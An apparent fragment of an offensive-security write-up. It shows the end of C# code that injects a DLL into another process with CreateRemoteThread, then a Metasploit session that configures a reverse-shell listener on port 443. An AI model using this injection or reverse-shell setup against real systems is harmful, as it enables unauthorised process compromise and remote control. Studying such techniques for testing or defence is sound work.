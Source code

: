 ```csharp
            IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, loadLib, addr, 0, IntPtr.Zero);

        }

    }

}
```

```bash
❯ msfconsole
Metasploit tip: Tired of setting RHOSTS for modules? Try globally setting it 
with setg RHOSTS x.x.x.x
                                                  
               .;lxO0KXXXK0Oxl:.
           ,o0WMMMMMMMMMMMMMMMMMMKd,
        'xNMMMMMMMMMMMMMMMMMMMMMMMMMWx,
      :KMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMK:
    .KMMMMMMMMMMMMMMMWNNNWMMMMMMMMMMMMMMMX,
   lWMMMMMMMMMMMXd:..     ..;dKMMMMMMMMMMMMo
  xMMMMMMMMMMWd.               .oNMMMMMMMMMMk
 oMMMMMMMMMMx.                    dMMMMMMMMMMx
.WMMMMMMMMM:                       :MMMMMMMMMM,
xMMMMMMMMMo                         lMMMMMMMMMO
NMMMMMMMMW                    ,cccccoMMMMMMMMMWlccccc;
MMMMMMMMMX                     ;KMMMMMMMMMMMMMMMMMMX:
NMMMMMMMMW.                      ;KMMMMMMMMMMMMMMX:
xMMMMMMMMMd                        ,0MMMMMMMMMMK;
.WMMMMMMMMMc                         'OMMMMMM0,
 lMMMMMMMMMMk.                         .kMMO'
  dMMMMMMMMMMWd'                         ..
   cWMMMMMMMMMMMNxc'.                ##########
    .0MMMMMMMMMMMMMMMMWc            #+#    #+#
      ;0MMMMMMMMMMMMMMMo.          +:+
        .dNMMMMMMMMMMMMo          +#++:++#+
           'oOWMMMMMMMMo                +:+
               .,cdkO0K;        :+:    :+:                                
                                :::::::+:
                      Metasploit

       =[ metasploit v6.4.5-dev                           ]
+ -- --=[ 2413 exploits - 1242 auxiliary - 423 post       ]
+ -- --=[ 1468 payloads - 47 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set lhost eth0
lhost => eth0
msf6 exploit(multi/handler) > set lport 443
lport => 443
msf6 exploit(multi/handler) > show options

Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  eth0             yes       The listen address (an interface may be specified)
   LPORT  443              yes       The listen port


```